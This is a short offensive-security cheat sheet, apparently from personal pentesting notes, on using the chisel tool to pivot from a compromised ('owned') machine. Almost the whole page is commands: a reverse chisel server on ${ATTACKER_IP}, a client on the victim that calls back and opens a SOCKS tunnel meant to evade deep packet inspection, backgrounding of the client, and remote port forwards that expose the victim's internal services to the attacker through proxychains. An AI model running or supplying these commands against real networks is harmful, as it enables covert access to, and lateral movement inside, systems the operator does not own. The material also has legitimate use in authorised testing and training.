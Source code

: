 # Chisel
if you get:


> /chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32` not found (required by ./chisel)
go [here](https://github.com/jpillora/chisel/releases) for the appropriate release.


Chisel makes it possible to do HTTP tunneling encrypted such that deep packet inspection won't be able to look into the details of the traffic.

We run a chisel server on `${ATTACKER_IP}` which allows us to connect back from an owned machine:

```
chisel server --port ${ATTACKER_PORT} --reverse
```


From the `${OWNED_IP0}`, run 

```
chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:socks
```
This creates a SOCKS tunnel (bound to 1080 by default). <--- USE 1080 as proxy port, not `${ATTACKER_PORT}`. Also when setting up the proxy in the browser!

If you want it to not block your current shell, do:

```
chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:socks > /dev/null 2>&1 &
```

If you don't want to use port 1080, do:

```
chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:${SOME_PORT}:socks
```

now, use `${SOME_PORT}` as the socks proxy port.


Once the client and server is setup, we can access targets from the point of view of `${OWNED_IP0}` by using proxychains4:

Add to proxychains4.conf:
```
socks5 127.0.0.1 1080
```

```
proxychains4 -f proxychains4.conf ${SOME_COMMAND} 
```

## Remote port forward with chisel

if you want to expose a single port on an owned machine `IP0`, you can do:


```
./chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:${ATTACKER_PORT1}:${OWNED_IP}:${OWNED_PORT}
```

This allows traffic to go between `$ATTACKER_PORT1` and `${OWNED_IP}:${OWNED_PORT}`.
For exposing a local port on a machine do:

```
./chisel client ${ATTACKER_IP}:3333 R:9000:127.0.0.1:8000
```
Now, you can access the website internally exposed on `127.0.0.1:8000` on the target machine by going to `localhost:9000` in firefox.

Note that you can do multiple port forwarding statements with one client call.
In case you need to forward multiple ports.
